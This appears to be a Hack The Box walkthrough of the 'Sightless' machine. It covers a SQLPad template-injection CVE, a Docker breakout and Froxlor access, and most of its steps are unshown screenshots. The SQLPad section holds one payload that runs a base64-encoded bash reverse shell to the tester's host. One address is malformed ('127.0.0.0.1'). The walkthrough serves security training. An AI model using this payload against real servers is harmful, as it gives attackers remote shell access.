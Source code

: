 ```yaml
---
title: Sightless
tags:
  - htb
  - easy
---
```


If you scan with gobuster vhost, you will not get any results, but if you navigate through the website, you will see a button that wants to redirect you directly to a subdomain.

![](https://miro.medium.com/v2/resize:fit:700/1*t2zzEeMYN8raBYmFbk3ZPw.png)

![](https://miro.medium.com/v2/resize:fit:700/1*dtK8xzqeijpNmi3sQYiJfw.png)

## SQLPad CVE

![](https://miro.medium.com/v2/resize:fit:700/1*2h0LV0w3TuWIRXF9oZelBw.png)

![](https://miro.medium.com/v2/resize:fit:700/1*fFY2bKsmL6w2Z45f83DujA.png)

![](https://miro.medium.com/v2/resize:fit:700/1*jtwTlDm4Enuki1ZhuaIoYA.png)

![](https://miro.medium.com/v2/resize:fit:700/1*BROJylg-3NyQWpdBER0l3A.png)

![](https://miro.medium.com/v2/resize:fit:700/1*EbYqAWBQ2fAKm7HebMdQgw.png)

> {{ process.mainModule.require(‘child_process’).exec(‘echo -n  
> c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTAzLzQ0NDQgMD4mMQ== | base64 -d | bash’) }}

![](https://miro.medium.com/v2/resize:fit:700/1*k6YA-J65hIpuvLUx7g2hWA.png)

We are root users, yes, but we are inside the Docker container. At first you may think that you need to do a Docker Breakout. It definitely is, but you should think as simple as possible.

![](https://miro.medium.com/v2/resize:fit:700/1*ffGVPsnyhCdAhT6WDv2zoA.png)

## Docker Breakout (!)

![](https://miro.medium.com/v2/resize:fit:700/1*nGIvYMSmDBwRV-P-HRcn2g.png)

![](https://miro.medium.com/v2/resize:fit:700/1*Eqi0sTnOyrNMKwCZrVL5YQ.png)

## Lateral Movement

![](https://miro.medium.com/v2/resize:fit:700/1*HLVOvoajPE5hsbmKCCVd7A.png)

![](https://miro.medium.com/v2/resize:fit:700/1*4m0HF_NTk2_tkif7w4YZqw.png)

![](https://miro.medium.com/v2/resize:fit:700/1*Zw945mMGBhfQ3W8ebqu0Bw.png)

We accessed the Froxlor service at 127.0.0.0.1:8080 from our local address, but we do not have a username and password to log in.

![](https://miro.medium.com/v2/resize:fit:700/1*hEi1xH3q3y_Arrv_DpBYkg.png)

![](https://miro.medium.com/v2/resize:fit:700/1*o5RpOu_lrRMQOvQ89-NK8w.png)

![](https://miro.medium.com/v2/resize:fit:700/1*yFTitL7_ElMcoXFwvD6iYQ.png)

Then, when you examine the requests sent by pressing the Inspect button, you will have the password for the admin user.

![](https://miro.medium.com/v2/resize:fit:700/1*YyaOoor_aHqEJdNgsyEGpw.png)

![](https://miro.medium.com/v2/resize:fit:700/1*n-9Kl33ZmXYwtzquRmWerw.png)

![](https://miro.medium.com/v2/resize:fit:700/1*teW24sYLXJRLRVfekYljpg.png)

![](https://miro.medium.com/v2/resize:fit:700/1*pPUD8KQ-Y8QgF7zhay8Mdg.png)

![](https://miro.medium.com/v2/resize:fit:700/1*wsXy9BPkGZ8tMHE7HwlI7g.png)

![](https://miro.medium.com/v2/resize:fit:700/1*dtoGwD-SLMHz5_T_zsnwEA.png)

![](https://miro.medium.com/v2/resize:fit:700/1*QDU-T45iW_FjsH2srsL7PA.png)
